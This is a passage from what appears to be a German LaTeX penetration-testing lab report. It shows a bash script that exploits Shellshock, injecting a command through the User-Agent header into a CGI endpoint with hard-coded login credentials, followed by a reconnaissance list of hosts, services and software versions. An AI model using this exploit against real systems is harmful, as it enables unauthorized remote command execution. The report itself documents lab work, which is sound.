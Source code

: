 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\begin{lstlisting}[caption=Scan der IPv4-Netze,label=code:restscript,language=bash,style=simple]
file="uname"
inCmd="/bin/uname -a"
cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo;'${inCmd}';" http://localhost:8805/cgi-bin/search'

echo "INJECTED COMMAND"
echo "==="
echo ${inCmd}
echo "==="
eval $cmd
\end{lstlisting}

Dabei hat sich vor allem ergeben, dass der Host mit Namen SUN der zentrale Gateway im Netzwerk ist und unser Einstiegshost EARTH ist (I see what you did there).

\subsection{Netzwerke und Hosts}

\subsubsection{172.16.2.0}
Alle Hosts in diesem Netz liegen in der Domain dmz.vienna.essecorp.invalid.
\begin{itemize}
	\item 172.16.2.12: pluto
	\\Dienste: HTTP (lighttpd 1.4.31) auf Port 80, Titel: EsseCorp Inc.
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: HTTP-Server
	
	\item 172.16.2.15: charon
	\\Dienste: FTP (vsftpd 2.3.5) auf Port 21
	\\Geschätztes OS: Unix (Exim smtpd ist nur auf Unixoiden OS vorhanden; auch von nmap geschätzt)
	\\Geschätzte Rolle: FTP-Server
	
	\item 172.16.2.25: eris
	\\Dienste: SMTP (Exim smtpd 4.80) auf Port 25
	\\Geschätztes OS: Unix (Exim smtpd ist nur auf Unixoiden OS vorhanden)
	\\Geschätzte Rolle: Mail-Server
	
	\item 172.16.2.253: makemake
	\\Dienste: Filtered SSH auf Port 22
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Produktions-Server oder Netzwerk-Gerät
\end{itemize}
\end{document}
